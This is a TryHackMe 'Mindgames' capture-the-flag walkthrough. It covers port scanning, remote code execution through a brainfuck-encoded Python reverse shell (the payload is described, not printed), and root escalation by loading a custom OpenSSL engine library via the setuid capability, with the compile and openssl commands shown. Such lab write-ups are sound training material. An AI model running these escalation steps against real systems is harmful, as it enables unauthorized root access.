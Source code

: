 Machine: Mindgames
Link: https://tryhackme.com/room/mindgames  

Connect to Tryhackme vpn and spawn the machine  

export the ip ("export IP='target IP'")  

Start with a nmap/rustscan scan ("nmap -sC -sV $IP"/"rustscan -a $IP")  


```
----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan

[~] The config file is expected to be at "/home/debangshu/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.26.191:22
Open 10.10.26.191:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-06 22:53 IST
Initiating Ping Scan at 22:53
Scanning 10.10.26.191 [2 ports]
Completed Ping Scan at 22:53, 0.22s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 22:53
Completed Parallel DNS resolution of 1 host. at 22:53, 0.04s elapsed
DNS resolution of 1 IPs took 0.04s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 22:53
Scanning 10.10.26.191 [2 ports]
Discovered open port 22/tcp on 10.10.26.191
Discovered open port 80/tcp on 10.10.26.191
Completed Connect Scan at 22:53, 0.18s elapsed (2 total ports)
Nmap scan report for 10.10.26.191
Host is up, received conn-refused (0.21s latency).
Scanned at 2023-09-06 22:53:51 IST for 0s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.48 seconds

```  

Open Ports: 22,80  

we didn't find anything from ssh so lets access the http port(80)  

from the website we find 2 code of 'brainfuck' and one section where we can execute our code.  

after decrypting the code we found the code to be of python  

so I tried to execute python code in the "Try before you buy" section but it didn't executed  

then I converted the python reverse shell payload into brainfuck and then executed.  

It got RCE vulnerability and we got the shell  


```
python3 -c "import pty;pty.spawn('/bin/bash')"

```  

to get the user.txt  

```
cat /home/mindgames/user.txt 

```  


To get the Root Shell  

let’s try "sudo -l" to see if mindgames can run sudo:  

but we don't have mindgames password  

Now let's check for capabilities

```
getcap -r / 2>/dev/null
```  

Openssl has the setuid cap.  

write an C program to exploit it  

refer to <a href="https://www.openssl.org/blog/blog/2015/10/08/engine-building-lesson-1-a-minimum-useless-engine/"></a>  


Now compile this c program  

```
gcc -fPIC -o filename.o -c filename.c && gcc -shared -o filename.so -lcrypto filename.o

```  

Now transfer the ".so" file to the target machine using python's http server  

then use Openssl and execute the  new lib  

```
openssl req -engine shellroot.so

```  

and boom we are ROOT  

to get the final flag  

```
cat /root/root.txt

```  

Thankyou









